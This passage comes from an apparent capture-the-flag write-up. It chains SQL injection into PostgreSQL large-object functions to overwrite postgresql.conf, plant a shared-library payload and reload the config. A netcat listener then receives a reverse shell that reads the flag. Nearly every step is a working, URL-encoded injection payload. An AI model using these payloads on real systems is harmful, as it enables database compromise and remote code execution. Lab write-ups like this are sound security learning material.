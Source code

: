 ### Do it all again

I use that `payload.c` from earlier and this time with that Dockerfile:

I assign the config to 133339, I found that `base64` was not working in `decode()` so I used `hex`:
```
users"%20UNION%20SELECT%20null,null,CAST((SELECT%20lo_from_bytea(133339,decode('2320...0a','hex')))%20AS%20text)--
```

Then write it to `/var/lib/postgresql/data/postgresql.conf` to override the config to add the preload library lines:
```
users"%20UNION%20SELECT%20null,null,CAST((SELECT%20lo_export(133339,'/var/lib/postgresql/data/postgresql.conf'))%20AS%20text)--
```

I then assign the letter 'a' to 133343:
```
users"%20UNION%20SELECT%20null,null,CAST((SELECT%20lo_from_bytea(133343,'a'))%20AS%20text)--
```

I then use `lo_put` to overwrite the data (again using `hex` and `decode()`) as the data was too big:
```
users"%20UNION%20SELECT%20null,null,CAST((SELECT%20lo_put(133343,0,decode('7f45...00','hex')))%20AS%20text)--
```

I then write the data to `/tmp/payload.so`:
```
users"%20UNION%20SELECT%20null,null,CAST((SELECT%20lo_export(133343,'/tmp/payload.so'))%20AS%20text)--
```


I then reload the config:
```
users"%20UNION%20SELECT%20null,null,CAST((SELECT%20pg_reload_conf())%20AS%20text)--
```

and finally... (after waiting):
```
root@server:~# nc -lvnp 4444
listening on [any] 4444 ...
connect to [43.229.61.175] from (UNKNOWN) [159.196.175.147] 37400
/readflag
HTB{F4K3_FL4G_F0R_T3St1NG!}
```

Woot!

## Do it on remote

### Get the password
Make our user, get to the panel and then make the bid request with our cookies:
